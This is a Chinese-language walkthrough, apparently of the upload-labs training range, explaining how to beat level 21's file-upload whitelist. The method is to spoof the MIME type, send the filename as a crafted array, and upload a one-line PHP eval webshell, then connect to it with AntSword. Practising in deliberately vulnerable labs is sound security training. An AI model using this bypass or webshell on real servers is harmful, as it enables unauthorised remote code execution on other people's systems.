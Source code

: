 <hr/>
 
打开图片获得上传文件的地址
相应知道了shell文件的地址
蚁剑（菜刀、冰蝎）连接
最后网盘地址为…… upload-20.php/
粘贴shell地址，和自己设置的密码


---


---


---


## Pass21（绕过白名单）

> 
<h3>特点：</h3>



> 
<h3>分析：</h3>
后面关卡应该基本上是后端检查
<hr/>

 
逻辑流程：<br/> MIME检测：content-type值检测（bp抓包修改）<br/> 判空：POST参数是否为空定义$file变量（构造数组绕过分割）<br/> 分割：file不是数组则使用explode('.', strtolower($file))对file进行切割，变为一个数组<br/> 判断后缀：数组后缀是否合法<br/> 命名：数组第一位和$file[count($file) - 1]拼接，文件名file_name<br/> 上传
<hr/>

考虑：
1、修改MIME
2、构造数组
3、构造php文件数组的下一个数组为空，没法拼接文件名


---


> 
<h3>利用：</h3>
上传一句话木马
&lt;?php @eval($_POST['123']);?&gt;
（上传什么后缀都不要紧，因为他后面有重新保存文件名，所以对上传的文件名没有检测）


<hr/>

使用bp拦截

 
1、修改MIME：image/jpeg
2、构造数组：[0][2]
3、构造php文件数组的下一个数组为空，没法拼接文件名

 

 


<hr/>

打开图片获得上传文件的地址
蚁剑（菜刀、冰蝎）连接
最后网盘地址为
粘贴shell地址，和自己设置的密码


---

